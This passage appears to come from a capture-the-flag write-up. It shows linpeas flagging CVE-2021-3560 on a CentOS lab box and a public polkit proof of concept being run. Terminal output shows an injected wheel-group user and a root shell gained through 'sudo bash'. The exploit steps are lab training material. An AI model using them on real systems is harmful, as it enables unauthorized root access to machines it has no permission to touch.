 Run linpeas on the victim and one of the first things it says is that this box is vulnerable to a priv esc CVE: CVE-2021-3560
- https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
- Run this PoC a couple of times. Once it says that it was exploited successfully, log in with the new user and run 'sudo bash' for a root shell
```bash
[dwight@paper shm]$ ./ex.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper shm]$ su - secnigma
Password: 
[secnigma@paper ~]$ id
uid=1005(secnigma) gid=1005(secnigma) groups=1005(secnigma),10(wheel)
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
```
